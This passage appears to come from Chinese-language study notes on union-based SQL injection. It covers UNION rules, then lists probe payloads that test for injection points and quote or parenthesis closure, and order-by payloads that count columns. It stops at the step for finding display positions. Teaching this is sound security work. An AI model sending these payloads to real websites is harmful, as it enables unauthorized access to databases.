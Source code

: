   ```
  查询语句1
  union
  查询语句2
  union
  查询语句3
  ```

##### b. 使用

* 多条查询语句的**查询列数和数据类型必须一致**
* 字段数不够时，可以使用null或1,2,3来占位
* union关键字**默认去重**，如果使用**union all**可以包含重复项
* 前提：页面必须要**有显示位**

##### c. 流程

###### ①判断注入点和闭合方式

```
1. 先判断注入点类型
    1 and 1=1 -- 123	
    1 and 1=2 -- 123	=> 发生错误，则为整型，否则考虑为字符型
2. 判断闭合方式
    1' and 1=2 --+
    1" and 1=2 --+
    1) and 1=2 --+
    1') and 1=2 --+
    1") and 1=2 --+
    1")) and 1=2 --+
    1')) and 1=2 --+
    1")) and 1=2 --+
    1))) and 1=2 --+
    ...
```

###### ②判断列数

* 使用order by 判断字段数(可结合二分法)

```
1' order by 1 -- 123
1' order by n -- 123
1' or 1=1 order by n -- 123
```

* 将多条查询语句的结果合并成一个结果集

```
查询语句1
union
查询语句2
union
查询语句3
```

###### ③判断显示位
